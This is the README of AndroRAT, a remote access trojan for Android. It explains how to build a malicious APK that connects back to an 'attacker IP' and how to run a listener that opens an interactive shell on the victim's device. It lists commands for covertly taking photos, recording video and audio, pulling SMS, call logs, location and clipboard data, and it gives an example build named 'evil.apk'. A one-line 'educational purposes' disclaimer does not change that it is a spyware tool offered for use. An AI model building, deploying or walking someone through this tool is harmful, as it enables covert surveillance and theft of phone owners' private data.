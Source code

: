 **Disclaimer** : This software is meant for educational purposes only. I don't feel responsible for any malicious use of the app.
# AndroRAT 

[![MIT License](https://img.shields.io/badge/license-MIT-blue.svg)](https://opensource.org/licenses/MIT) 
[![Twitter Follow](https://img.shields.io/twitter/follow/karma9874?label=Follow&style=social)](https://twitter.com/karma9874)
[![GitHub followers](https://img.shields.io/github/followers/karma9874?label=Follow&style=social)](https://github.com/karma9874)

AndroRAT is a tool designed to give the control of the android system remotely and retrieve informations from it. Androrat is a client/server application developed in Java Android for the client side and the Server is in Python.

##### AndroRAT will work on device from Android 4.0 (Jelly Bean) to Android 9.0 (Oreo) (API 16 to API 28)

> AndroRAT also works on Android 10 (Q) but some of the interpreter command will be unstable. 

## Screenshots

![AndroRAT](https://github.com/karma9874/AndroRAT/blob/master/Screenshots/5.jpg "AndroRAT in action")

## Prerequisites
AndroRAT requires Python (> 3.6) and JAVA (or Android Studio)

## Installation
```
git clone https://github.com/karma9874/AndroRAT.git
```
## Usage
### Available Modes
* `--build` - for building the android apk 
* `--shell` - getting an interactive shell of the device
### `build` mode
```
Usage:
  python androRAT.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
```
Or you can manually build the apk by importing [Android Code](https://github.com/karma9874/AndroRAT/tree/master/Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](https://github.com/karma9874/AndroRAT/blob/master/Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  python androRAT.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device
Commands which can run on the interpreter
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
## Examples

* To build the apk:
```python androRAT.py --build -i 192.169.x.x -p 8000 -o evil.apk```

* To get the interpreter:
```python androRAT.py --shell -i 0.0.0.0 -p 8000```

## Interpreter Examples
* Generating APK
<p align="center">
  <img src="https://github.com/karma9874/AndroRAT/blob/master/Screenshots/6.JPG" width="800"/>
</p>
------------------------------------------------------------------------------------------------------------------------------  

* Some interpreter Commands 
<p align="center">
  <img src="https://github.com/karma9874/AndroRAT/blob/master/Screenshots/1.JPG" width="800"/>
</p>
------------------------------------------------------------------------------------------------------------------------------

## License
AndroRAT is licensed under MIT license take a look at the [LICENSE](https://github.com/karma9874/AndroRAT/blob/master/LICENSE) for more information.


